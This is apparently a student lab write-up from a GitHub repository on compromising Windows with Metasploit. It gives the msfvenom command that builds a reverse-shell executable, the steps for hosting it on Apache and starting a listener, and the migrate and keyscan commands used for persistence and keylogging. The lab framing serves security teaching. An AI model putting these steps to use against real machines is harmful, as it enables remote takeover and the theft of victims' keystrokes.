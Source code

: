 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![exp6_1](https://github.com/user-attachments/assets/2d594c6f-42da-4d42-a36b-28542ccc6d23)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![exp6_2](https://github.com/user-attachments/assets/65653a12-329f-43b3-9032-594694b0ddaf)

copy the fun.exe into the apache /var/www/html folder
![exp6_3](https://github.com/user-attachments/assets/ce07d36c-da61-489b-b938-16dbc0b462ca)

Start apache server sudo systemctl apache2 start
![exp6_4](https://github.com/user-attachments/assets/d8a2213f-6b0c-4f3f-bb80-58c9fa047177)

Check the status of apache2
![exp6_5](https://github.com/user-attachments/assets/f5ea45b6-f430-4284-aa91-936f59d1aed8)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![exp6_6](https://github.com/user-attachments/assets/47ca61b4-94f2-4c12-8117-e4a530b973fe)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![exp6_7](https://github.com/user-attachments/assets/f6705ed8-bbb3-43dc-a822-cbe5f17435eb)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exp6_8](https://github.com/user-attachments/assets/656d275c-175e-4460-8809-07b9de09b03c)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![exp6_9](https://github.com/user-attachments/assets/1db3c4e8-5954-4876-9630-82a5e52a1cf0)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![exp6_10](https://github.com/user-attachments/assets/1378325a-be9d-42e8-9afd-04c46c2d0231)

keyscan_dump Shows the keystrokes captured so far

![exp6_11](https://github.com/user-attachments/assets/269031dc-7a8d-43e0-aa51-11e62be30b25)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
